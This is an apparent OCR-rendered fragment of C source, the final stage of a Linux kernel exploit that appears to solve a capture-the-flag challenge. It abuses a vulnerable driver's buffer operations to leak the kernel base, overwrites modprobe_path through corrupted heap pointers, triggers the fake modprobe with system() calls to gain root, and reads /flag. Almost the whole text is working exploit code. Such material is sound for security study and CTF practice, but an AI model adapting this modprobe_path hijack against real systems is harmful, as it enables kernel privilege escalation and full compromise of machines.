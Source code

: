 ```c
    data.length = 8;

    editBuf(dev_fd[1], &data);
    allocBuf(dev_fd[1], &data);
    allocBuf(dev_fd[1], &data);

    data.length = 0x40;
    readBuf(dev_fd[1], &data);
    if ((data.ptr[2] & 0xfff) != 0x30) {
        printf("[!] invalid data leak: 0x%lx\n", data.ptr[2]);
        errExit("\033[31m\033[1m[x] FAILED TO HIT page_offset_base! TRY AGAIN!");
    }

    kernel_base = data.ptr[2] - 0x30;
    kernel_offset = kernel_base - 0xffffffff81000000;
    printf("\033[32m\033[1m[+] kernel base:\033[0m 0x%lx\n", kernel_base);
    printf("\033[32m\033[1m[+] kernel offset:\033[0m 0x%lx\n", kernel_offset);

    /* hijack the modprobe_path, we'll let it requesting new slub page for it */
    puts("[*] hijacking modprobe_path...");

    allocBuf(dev_fd[1], &data);
    close(dev_fd[1]);

    data.ptr[0] = kernel_offset + MODPROBE_PATH - 0x10;
    data.offset = 0;
    data.length = 0x8;

    editBuf(dev_fd[2], &data);
    allocBuf(dev_fd[2], &data);
    allocBuf(dev_fd[2], &data);

    strcpy((char *) &data.ptr[2], ROOT_SCRIPT_PATH);
    data.length = 0x30;
    editBuf(dev_fd[2], &data);

    /* trigger the fake modprobe_path */
    puts("[*] trigerring fake modprobe_path...");

    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");

    /* read flag */
    memset(flag, 0, sizeof(flag));
    
    flag_fd = open("/flag", O_RDWR);
    if (flag_fd < 0) {
        errExit("failed to chmod flag!");
    }

    read(flag_fd, flag, sizeof(flag));
    printf("\033[32m\033[1m[+] Got flag: \033[0m%s\n", flag);

    return 0;
}
```


